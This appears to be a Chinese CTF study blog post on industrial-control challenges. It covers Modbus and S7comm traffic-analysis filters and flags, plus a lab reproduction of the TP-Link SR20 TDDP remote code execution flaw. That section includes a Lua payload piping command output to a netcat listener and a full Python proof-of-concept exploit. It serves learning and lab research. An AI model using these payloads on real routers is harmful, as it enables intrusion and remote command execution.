


# CTF-ICS Learning Record

越来越多的比赛中出现工控相关的赛题，因此打算借这个机会学习一下。
<!--more-->

## 工控协议分析

### 工控流量分析

参考连接：https://blog.csdn.net/song123sh/article/details/128387982

将流量按长度降序排列，然后在各层寻找线索，

显示分组字节，从base64后开始，然后解码看文件类型，最后显示成该类型

#### Modbus 协议分析

Modbus 流量主要有三类：Modbus/RTU、Modbus/ASCII、Modbus/TCP

**Modbus/RTU**
>从机地址1B+功能码1B+数据字段xB+CRC值2B
>
>最大长度256B，所以数据字段最大长度252B

**Modbus/ASCII**
>由Modbus/RTU衍生，采用0123456789ABCDEF 表示原本的从机地址、功能码、数据字段，并添加开始结束标记，所以长度翻倍
>
开始标记:（0x3A）1B+从机地址2B+功能码2B+数据字段xB+LRC值2B+结束标记\r\n2B

最大长度513B，因为数据字段在RTU中是最大252B，所以在ASCII中最大504B

**Modbus/TCP**
>不再需要从机地址，改用UnitID；不再需要CRC/LRC，因为TCP自带校验
>
传输标识符2B+协议标识符2B+长度2B+从机ID 1B+功能码1B+数据字段xB

一般题目考察 Modbus/TCP 比较多，然后主要考察的就是下面这种功能码（这里只列了部分）

因此解题的时候配合过滤器一个个功能码看过去就行
1：读线圈

2：读离散输入

3：读保持

4：读输入

5：写单个线圈

6：写单个保持

15：写多个线圈

16：写多个保持

如果题目考察的是查找异常流量，那么我们只要依次查看每个 func_code，然后根据字段排除正常流量

因为大部分的流量都是正常，异常的流量肯定是小部分

例如 

先查看 (modbus) && (modbus.func_code == 17)，发现有很多 modbus.data == 06:00:00 的流量

因此过滤 modbus.data == 06:00:00 的流量：((modbus) && (modbus.func_code == 17)) && !(modbus.data == 06:00:00)

就是依次过滤正常流量，最后剩下来的就是异常流量了
##### 例题1 HNGK-Modbus流量分析
使用下面这个过滤器命令即可得到 flag
```
(((_ws.col.protocol == "Modbus/TCP") ) && (modbus.byte_cnt)) && (modbus.func_code == 16)
```

flag{TheModbusProtocolIsFunny!}

##### 例题1 HNGK-Modbus协议分析

题目附件给了一个流量包，稍微翻一下，发现 modbus.func_code 只有四种情况：2、3、4、16

2和16的情况中没有发现什么异常，但是3和4的流量包中寄存器的值存在异常

modbus.func_code == 3 的情况中寄存器的值一直在增加，直到变成下图中的内容


而 modbus.func_code == 4 的情况则是一直在读寄存器的内容，寄存器中的内容和上面是一样的


因此猜测题目逻辑大概就是，3先写入寄存器的值，然后由4读取并发送

接下来我们就重点分析这段数据的内容，因为有不可见字符，所以我们复制为 Hex 格式


(((modbus) && (modbus.func_code == 3)) && (ip.src == 192.168.161.2)) && (modbus.byte_cnt)

#### S7comm 协议分析
> 西门子设备的工控协议，基于 COTP 实现，是COTP的上层协议
> 
> 主要有三种类型：Job(1)、Ack_Data(3)/Ack(2)、Userdata(7)
> 
> Job：下发任务/指令
> 
> Ack_Data：带有返回数据
> 
> Ack：单纯确认，含有数据
> 
> Userdata：用户自定义数据区，也包含功能指令

##### 例题1 2020ICSC湖州站—工控协议数据分析

首先过滤出S7协议的数据包，发现在一些Ack_Data的数据包中传输了二进制数据

因此，我们将所有带有二进制数据的数据包都过滤出来，发现一些Job的数据包中也有二进制数据

然后我们尝试将所有带有二进制数据的Job数据包都过滤出来并导出特定分组，过滤器代码如下
```bash
((s7comm) && (s7comm.resp.data)) && (s7comm.param.func == 0x05)
```


然后使用 tshark 提取数据
```tshark
tshark -r 1.pcap -T fields -e s7comm.resp.data | uniq
```


最后 CyberChef 解码二进制即可得到 flag

##### 例题2 2020ICSC济南站—被篡改的数据
翻看流量包，发现很多 S7COMM 数据包，使用过滤器过滤，发现 s7comm.resp.data 字段传了很多 66 数据

使用过滤器过滤出传了 s7comm.resp.data 字段数据但数据不是 66 的 S7 数据包

发现了疑似 flag 的数据，为了防止 flag 中含有 f 字符而被过滤

因此我们使用下面这个过滤命令进行过滤，然后导出特定分组
```
(((frame.number >= 19987 && frame.number <=20032) && (_ws.col.protocol == "S7COMM")) && (s7comm.param.func == 0x05)) && (s7comm.resp.data)
```
最后 tshark 提取出数据，然后十六进制解码即可得到 flag：flag{93137ad4a}

##### 例题3 枢网智盾2021—异常流分析
打开流量包，发现很多 S7comm 流量，然后稍微过滤一下，发现是写入数据的流量

然后写入的数据几乎都是 ffff 开头的，因此我们直接查看不是 ffff 开头的数据
```
((_ws.col.protocol == "S7COMM") && (s7comm.param.func == 0x05)) && (s7comm.resp.data[0:2] != ff:ff)
```
即可得到 flag：flag{ffad28a0ce69db34751f}
##### 例题4 枢网智盾2021—工控协议分析
```
(_ws.col.protocol == "S7COMM") && (frame.number == 418)
```

然后直接把明文传输的数据 base64 解码即可

flag{hncome66!}

## Web渗透类

## 逆向分析

### TP-Link SR20 本地网络远程代码执行漏洞

固件下载链接：https://www.tp-link.com/us/support/download/sr20/#Firmware

选择 `SR20(US)_V1_180518` 下载，然后解压，直接使用 binwalk 提取固件即可

搭建 arm qemu 虚拟机环境

搭建环境前需要先获取以下三个文件，并置于统一目录中，下载链接：https://people.debian.org/~aurel32/qemu/armhf/

```bash
debian_wheezy_armhf_standard.qcow2 # qemu虚拟机的硬盘镜像文件，包含完整的 Debian Wheezy 操作系统（ARM 架构）
initrd.img-3.2.0-4-vexpress # 初始 RAM 文件系统镜像，用于在内核加载时提供临时文件系统和驱动
vmlinuz-3.2.0-4-vexpress # 压缩的 Linux 内核镜像文件，控制系统硬件和资源管理
```

```bash
sudo tunctl -t tap0 -u `whoami`  
# 为了与 QEMU 虚拟机通信，添加一个虚拟网卡，如果显示已经分配给一个用户，要先用以下命令启用
# sudo ip link set tap0 up

# 为添加的虚拟网卡配置 IP 地址
sudo ifconfig tap0 10.10.10.1/24 
# 根据配置启动虚拟机
qemu-system-arm \
    -M vexpress-a9 \                             # 使用 ARM 虚拟平台 vexpress-a9
    -kernel vmlinuz-3.2.0-4-vexpress \           # 指定内核镜像文件
    -initrd initrd.img-3.2.0-4-vexpress \        # 指定 initrd 初始 RAM 文件系统
    -drive if=sd,file=debian_wheezy_armhf_standard.qcow2 \  # 将 debian 磁盘镜像作为 SD 卡
    -append "root=/dev/mmcblk0p2 console=ttyAMA0" \ # 内核启动参数：设置根分区及控制台
    -net nic \                                   # 启用虚拟网络接口
    -net tap,ifname=tap0,script=no,downscript=no \ # 使用 tap0 进行网络桥接
    -nographic                                    # 不启动图形界面，重定向到终端
```

虚拟机成功运行后，使用 root root 默认密码登录系统，然后使用以下命令配置网卡，建立与宿主机的通讯
```bash
ifconfig eth0 10.10.10.2/24
```


建立好通讯后，用以下命令把固件中的文件系统传入虚拟机中并解压
```
tar -cjpf squashfs-root.tar.bz2 squashfs-root/
python -m http.server
wget http://10.10.10.1:8000/squashfs-root.tar.bz2
tar -xjpf squashfs-root.tar.bz2
```

然后需要在宿主机中安装TFTP服务
```bash
sudo apt install atftpd
```

编辑 `/etc/default/atftpd` 文件，`USE_INETD=true` 改为 `USE_INETD=false`

修改 `/srv/tftp` 为 `/tftpboot`

修改完成后用以下命令启动并查看aftpd服务
```bash
sudo systemctl start atftp
sudo systemctl status atftp
# 如果出现 atftpd: can't bind port :69/udp 报错
# 需要先用以下命令停用 inetutils-inetd 服务，然后再restart
sudo systemctl stop inetutils-inetd.service
```

下图是启动成功的界面


之后是漏洞复现的步骤
现在宿主机的`/tftpboot` 目录下创建下面两个文件

文件一：payload
```bash
function config_test(config)
  os.execute("id | nc 10.10.10.1 1337")
end
```
文件二：poc.py
```python
#!/usr/bin/python3

# Copyright 2019 Google LLC.
# SPDX-License-Identifier: Apache-2.0

# Create a file in your tftp directory with the following contents:
#
#function config_test(config)
#  os.execute("telnetd -l /bin/login.sh")
#end
#
# Execute script as poc.py remoteaddr filename

import sys
import binascii
import socket

port_send = 1040
port_receive = 61000

tddp_ver = "01"
tddp_command = "31"
tddp_req = "01"
tddp_reply = "00"
tddp_padding = "%0.16X" % 00

tddp_packet = "".join([tddp_ver, tddp_command, tddp_req, tddp_reply, tddp_padding])

sock_receive = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
sock_receive.bind(('', port_receive))

# Send a request
sock_send = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
packet = binascii.unhexlify(tddp_packet)
argument = "%s;arbitrary" % sys.argv[2]
packet = packet + argument.encode()
sock_send.sendto(packet, (sys.argv[1], port_send))
sock_send.close()

response, addr = sock_receive.recvfrom(1024)
r = response.encode('hex')
print(r)
```

然后虚拟机运行tddp，宿主机开启监听并运行poc.py即可成功复现


但是我这里虚拟机中tddp的动态链接库有点问题，暂时卡在这里了


参考链接：https://paper.seebug.org/879/

## 工控编程与组态分析

需要用到的软件：
1. McgsPro
2. 组态王
3. 西门子-博图软件
4. STEP7 MicroWIN V4.0 SP9

软件下载及安装

> SIMATIC STEP 7 incl. Safety and WinCC V16 TRIAL Download:
> 
> https://support.industry.siemens.com/cs/document/109772803/simatic-step-7-incl-safety-and-wincc-v16-trial-download?dti=0&lc=en-CN
> 
> 西门子TIA 博途V16安装详解及授权：
> 
> https://blog.csdn.net/shmp54/article/details/136840560
> 
> 西门子博途V16安装全网最详解教程：
> 
> https://zhuanlan.zhihu.com/p/304315391


---

> 作者: [Lunatic](https://goodlunatic.github.io)  
> URL: https://goodlunatic.github.io/posts/01ebd40/  

